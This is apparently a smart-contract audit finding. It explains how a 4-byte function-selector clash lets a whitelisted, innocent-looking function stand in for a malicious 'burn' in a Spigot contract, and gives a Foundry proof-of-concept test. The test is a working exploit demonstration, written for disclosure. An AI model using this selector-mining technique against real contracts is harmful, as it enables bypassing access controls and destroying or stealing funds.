 Mining for selector clashing is feasible since selectors are 4 bytes and the search space isn't that big for current hardware.

This is similar to the attack found on proxies, documented [here](https://medium.com/nomic-foundation-blog/malicious-backdoors-in-ethereum-proxies-62629adf3357) and [here](https://forum.openzeppelin.com/t/beware-of-the-proxy-learn-how-to-exploit-function-clashing/1070).

### Proof of Concept

In the following test, the `collate_propagate_storage(bytes16)` function is whitelisted because it looks safe enough to the arbiter. Now, `collate_propagate_storage(bytes16)` has the same selector as `burn(uint256)`, which allows a bad actor to call `EvilRevenueContract.burn` using the `operate` function of the Spigot.

Note: the context for this test (setup, variables and helper functions) is similar to the one found in the file `Spigot.t.sol`.

    contract InnocentRevenueContract {
        function collate_propagate_storage(bytes16) external {
            // It's all safe here!
            console.log("Hey it's all good here");
        }
    }

    contract EvilRevenueContract {
        function burn(uint256) external {
            // Burn the world!
            console.log("Boom!");
        }
    }

    function test_WhitelistFunction_SelectorClash() public {
          vm.startPrank(owner);
          
          spigot = new Spigot(owner, treasury, operator);
          
          // Arbiter looks at InnocentRevenueContract.collate_propagate_storage and thinks it's safe to whitelist it (this is a simplified version, in a real deploy this comes from the SpigotedLine contract)
          spigot.updateWhitelistedFunction(InnocentRevenueContract.collate_propagate_storage.selector, true);
          assertTrue(spigot.isWhitelisted(InnocentRevenueContract.collate_propagate_storage.selector));
          
          // Due to selector clashing EvilRevenueContract.burn gets whitelisted too!
          assertTrue(spigot.isWhitelisted(EvilRevenueContract.burn.selector));
          
          
          EvilRevenueContract evil = new EvilRevenueContract();
          // ISpigot.Setting memory settings = ISpigot.Setting(90, claimPushPaymentFunc, transferOwnerFunc);
          // require(spigot.addSpigot(address(evil), settings), "Failed to add spigot");
          
          vm.stopPrank();
                  
          // And we can call it through operate...
          vm.startPrank(operator);
          spigot.operate(address(evil), abi.encodeWithSelector(EvilRevenueContract.burn.selector, type(uint256).max));
      }
